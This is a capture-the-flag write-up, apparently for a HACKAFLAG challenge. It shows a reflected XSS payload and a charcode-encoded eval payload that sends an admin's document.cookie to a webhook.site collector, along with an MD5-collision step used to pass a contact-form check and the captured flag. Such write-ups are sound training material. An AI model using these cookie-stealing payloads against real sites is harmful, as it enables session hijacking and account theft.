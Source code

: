 Reflected XSS payload: http://159.65.249.122:3000/#|javascript:alert('XSS')|http://159.65.249.122:3000/|\||\\

Send this XSS on "http://159.65.249.122:3000/contact" to get admin's cookies:

Ps: You need to create a md5 hash collision with four bytes given in /contact
  MD5 hash collision python script: https://gist.github.com/EffectRenan/2425aa1ab52e35f6f8ee8b31b2582d65
  Execution: python2 MD5-collision.py "<Bytes_Given>" 0

Charcode encoder: https://codepen.io/HerbertAnchovy/pen/XLzdYr
I used https://webhook.site/ to receive the cookies.
Encode to charCode: window.location="<Your_Webhook_Link>/?Cookie="+document.cookie

Payload: http://159.65.249.122:3000/#|javascript:eval(String.fromCharcode(<Charcode_Encoded>))|http://159.65.249.122:3000/|\||\\

Flag: https://webhook.site/<...>/?Cookie=token=HACKAFLAG{T1m3_t0_r3st4rt}
